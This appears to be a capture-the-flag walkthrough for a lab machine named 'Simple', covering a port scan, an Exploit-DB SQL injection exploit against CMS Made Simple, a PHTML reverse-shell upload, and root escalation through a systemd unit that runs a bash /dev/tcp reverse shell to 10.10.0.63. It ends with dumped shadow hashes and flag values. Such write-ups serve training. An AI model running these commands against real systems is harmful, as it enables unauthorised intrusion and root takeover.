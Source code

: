 # SIMPLE

![](../.gitbook/assets/c9853ee1dc4940a4a84d73e01f51b01c.png)

## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9b:f9:a1:47:41:5f:d4:5c:97:33:55:26:ce:43:8f:2e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqzUDYRfkRl4wQmBp5mKTHBE93BmoWbbfpyScuYXqIDzvWxXm1eI7qOQK/eiuHfQ1mFB+B9F1HWZIIN/46lcVn9SHBWHXlzWfllcMr3OhSlvFb7b0AcKuaB31RKzAz9EQyDSzqNYuln9GSB44yz1mS3wj8a8HnWn/tmo1nj+vfSF1Dar9E9J7iO/iWXN39jisTUZvWfe7TUKeljRSStc7DeDIQ/hqXf8v+3/peEmN3r3YSpzer3OsgSoz6ALRhVBmDqsP5klfJ9ZANPdS1zTbEsCrNbgGESfhafHZyN5fg4pN3h1Qkr6hTyiX8X6ma15C9OXYToYsKl0DMOvRW/Cwd
|   256 40:68:53:3d:c0:3a:dc:ce:67:21:5b:68:33:68:04:83 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDbIPDOPFSpQ//djAzK0DjjdgVYa0CQK5YiCqPwRzxuvMiBAMyTxeoQeJS0fQT0nUEeDJti0BeojvPjq5d8uGg0=
|   256 12:13:a9:6f:66:ba:78:de:0a:9e:2f:ad:90:02:4e:59 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAYOQKm+KfbqNONMH9YqX5h09EkjpBsb6N1vNArSvclv
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 551E34ACF2930BF083670FA203420993
|_http-generator: CMS Made Simple - Copyright (C) 2004-2020. All rights reserved.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home - Simple
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/530a2359101344d88976c7b4a6fdc9cc.png)

![](../.gitbook/assets/7029d4a52c864385bbe9bc1413c1e199.png)

## EXPLOIT

* [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)

```text
python2 46635.py -u http://172.31.1.2 -w /opt/passwd/rockyou.txt -c
```

![](../.gitbook/assets/fece12c1cf014385bd88e94b2c5c3285.png)

### LOGIN

![](../.gitbook/assets/d2869e8e81364739b77c3ee1898ca561.png)

![](../.gitbook/assets/0347520abee44f6c9ab67e7c99b6d32a.png)

* MAYBE OTHER FORM OF EXPLOIT

![](../.gitbook/assets/a3e922ca91c549408a40b60422066cca.png)

### UPLOAD REVERSE SHELL / PHTML

![](../.gitbook/assets/11c76bfaceba403090fc9aa40210a442.png)

![](../.gitbook/assets/160dd686ebca43748954b7379069f475.png)

![](../.gitbook/assets/0d3856b055ca47098c30f8f5ef72dc68.png)

## LINPEAS FINDINGS

![](../.gitbook/assets/605bf7678aed4c14b0e963930f6ae4b5.png)

![](../.gitbook/assets/ef570e92110a4f14a92fd641ccd29757.png)

## PRIVESC

* CREATE A FILE SERVICE

```text
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.0.63/5314 0>&1'

[Install]
WantedBy=multi-user.target
```

* UPLOAD TO VICTIM MACHINE IN /etc/systemd/system
* START THE SERVICE

![](../.gitbook/assets/12fe1a398b544a9cab2dac4b4d74f258.png)

![](../.gitbook/assets/0006d9cde608405eb289b4fbc35d6873.png)

## CREDS

```text
root:$6$oUKquZ7c$FwuVG5MBGg0o7bnwzqR0hU6QXnDIGWt6JBfNGPv.fNjUinBCbDFKh/dcIJ1inhR/1BMVfmpDSiHuL9LZ7A6180:18301:0:99999:7:::
david:$6$v05ml13Y$U.mN1abUwDacW.KX1HdIGf7Vy3hQWeY9DFkk06Sc0AughHhd7M6j2VVDOA3zudnTuQv.5fVwOmdt6OYWz/I3H1:18301:0:99999:7:::
```

## FLAGS

### USER

```text
dbe6218bdc74df7e7529dd4641629bb5
```

### ROOT

```text
c20f32787812a86c23e91fd0a0c069a1
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

